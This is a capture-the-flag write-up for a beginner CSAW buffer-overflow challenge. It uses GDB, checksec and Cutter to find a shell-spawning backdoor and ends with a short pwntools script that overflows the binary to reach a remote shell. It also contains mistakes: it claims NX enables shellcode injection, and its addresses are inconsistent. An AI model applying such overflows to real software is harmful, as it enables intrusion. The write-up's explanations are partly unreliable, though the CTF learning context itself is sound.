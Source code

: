 
# Password_Checker:

## Intro:

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

Netcat:nc pwn.chal.csaw.io 5000

File: password_checker

## Go through

The first hint you get is that this is for someone who hasn't solved a binary exploit before therefore we know a good place too look is at the file which we recieved. You can therefore start by using a tool to check the file for information about it I used GDB

So, in terminal run:`gdb password_checker`

Here you get the info

```
adding symbols from password_checker...
I'm sorry, Dave, I can't do that.  Symbol format ´elf64-x86-64´ unknown.
```

So from this we learn that the file is of the elf64-x86-64 format. elf is Executable and Linkable Format 64 bit

Now that we now it is a executable we can try using the tool checksec, when we run checksec on the binary:

`checksec --file=password_checker`

Then we get the information that there is no canary found, nx is enabled, no PIE, no RPATH

So here we learn that nx is enabled the NX bit (no-execute) is a technology used in CPUs to segregate areas of memory for use by either storage of processor instructions (code) or for storage of data.

This means we can try and do bufferoverflow meaning we will try to put more data into a fixed-lenght buffer than the buffer can handle and thereby be able to do code execution by shellcode injection.

So I used a reverse engineering tool called Cutter to decompile the binary file to get some information we are gonna use in the buffer overflow.

Here I find a backdoor which looks like this:

```c
void backdoor(void)
{
    system("/bin/sh");
    return;
}
```

We can then use cutter to get the instruction address which in this case is 0x0040117d, we can then use pwn tools to process our binary file and send our specific line which we specify to overflow. Then we can specify the address for the information which we want usinger pointers in order to be able to connect via netcat.

once we have perfected the bufferoverflow we can try and edit our script to execute the remote on the netcat server which is listening for the password.

Then if everything was done correctly you can type whoami and then you will be able to see nobody which tells you who you are you can then try typing ls to see what are in the directory, and there you will find the flag.txt, you can then cat the txt file to get the flag.

### Python Script used:

```python
#pip install pwn
from pwn import *
p = process("./password_checker")
#doesn't need to run remote before we have perfected the bufferoverflow
p = remote('pwn.chal.csaw.io',5000)
p.sendline (b'\x00'*72+b'\x84\x11\x40\x00\x00\x00\x00\x00\x72\x11\x40\x00\x00\x00\x00\x00')
p.interactive()
```

# Tools used

#### GDB

Gnu project debugger https://www.gnu.org/software/gdb/

#### Checksec

checksec is a bash script to check the properties of executables (like PIE, RELRO, PaX, Canaries, ASLR, Fortify Source) https://github.com/slimm609/checksec.sh

#### cutter

http://cutter.re is a free open source RE platform, used to convert assembly into something that looks like C

pwn is a gdb wrapper https://github.com/Gallopsled/pwntools
